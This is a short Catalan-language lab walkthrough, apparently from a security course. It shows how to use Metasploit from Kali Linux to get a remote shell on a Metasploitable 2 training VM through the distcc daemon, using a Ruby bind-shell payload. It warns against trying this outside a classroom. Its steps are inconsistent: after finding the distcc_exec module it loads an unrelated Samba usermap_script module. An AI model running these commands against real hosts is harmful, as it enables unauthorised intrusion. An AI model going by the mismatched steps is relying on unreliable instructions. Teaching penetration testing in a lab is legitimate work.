





En aesta pràctica prepararem la màquina metasploitable 2 (linux) per a poder realitzar algunes activitats amb Metasploit amb posterioritat.
Perill!!
No proveu açò fora d'un entorn didáctic. Podrieu cometrer un delicte...
1 Inicia les màquines Kali Linux i Metasploitable 2. Ha d'haver-hi comunicació per xarxa local entre ambdues.
Anotació
Tots els passos a realitzar es faran des de la màquina Kali. S'intentarà accedir a la màquina Metasploitable mitjançant una vulnerabilitat del dimoni distcc. distcc és un compilador del llenguatge C i C++ pensat en l'aprofitament de màquines distribuïdes en la mateixa xarxa local per a optimitzar els temps de compilació utilitzant el temps de CPU d'altres màquines que estan ocioses.
Kali: Búsqueda del módulo a utilizar con metasploit:
search distcc
Selecciona el texto "exploit/unix/misc/distcc_exec"

Kali: Selecciona'l:
use exploit/multi/samba/usermap_script

Kali: Selecciona el payload a utilitzar:
show payloads
set payload cmd/unix/bind_ruby

Instructions:
show options
set RHOSTS 10.0.2.5
(Modifica 10.0.2.5 per la IP de la màquina a atacar)

Kali: Executeu l'exploit:
exploit
A partir d'ara hem obtingut una terminal en la màquina atacada.
